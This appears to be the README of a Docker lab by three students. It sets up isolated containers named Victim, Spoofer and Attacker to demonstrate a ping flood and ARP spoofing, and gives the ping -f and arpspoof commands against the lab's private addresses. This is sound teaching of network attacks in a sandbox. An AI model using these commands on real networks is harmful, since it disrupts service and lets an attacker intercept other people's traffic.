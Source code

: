 # Authors
Aloysio Winter, Carlo Mantovani, Felipe Elsner

# Notes
This application was developed in Linux, but it should work for different operating systems.
However, the commands within this README were executed primarily within a Linux OS.

# Configuration
The pre-defined IPv4 configuration should work within most locations, but if necessary, the addresses can be changed under the **services** and **network** sections within the docker-compose.yml file, following the already estabilished subnet configuration:
- NW Containers
    - Idle
    - Victim
    - Spoofer
- NW2 Containers
    - Attacker

# Start
```
./run.sh 
```
- OR

```
sudo docker-compose run --build --rm attacker zsh

In a different terminal:

sudo iptables -I DOCKER-ISOLATION-STAGE-2 -o br0 -i br1 -j ACCEPT
sudo iptables -I DOCKER-ISOLATION-STAGE-2 -o br1 -i br0 -j ACCEPT
```
- Lastly, run the sniffer in the local machine, outside the containers:
```
sudo python3 sniffer.py
```


## Addendum
- Depending on the OS, docker compose might be used as: 
```
docker compose
```
- OR
```
docker-compose
```

# Attack 
## Ping Flooding

- Within the Attacker Container, flood the Victim (172.20.0.3) with ICMP packets:
```
sudo ping -f 172.20.0.3  
```
- This floods the br0 interface with ICMP packets
## ARP Spoofing

Within the Attacker Container:
```
ping 172.20.0.3

```
- Run Victim (172.20.0.3) Container:
```
sudo docker exec -it victim sh
```
- Ping Idle (172.20.0.2) in Victim Container:
```
ping 172.20.0.2
```
- Run Spoofer (172.20.0.4) Container:
```
sudo docker-compose run --rm spoofer zsh
```
- In Spoofer container:
```
arpspoof -i eth0 -t 172.20.0.3 172.20.0.2
```
- This changes the Arp Cache in Victim (172.20.0.3) so that Idle (172.20.0.2) is associated with the Spoofer's (172.20.0.4) MAC address.
- Doing so, traffic that Victim (172.20.0.3) sends to Idle (172.20.0.2) is redirected to the Spoofer (172.20.0.4).

# Clean Containers
```
./down.sh
```
- OR
```
sudo docker-compose down
```


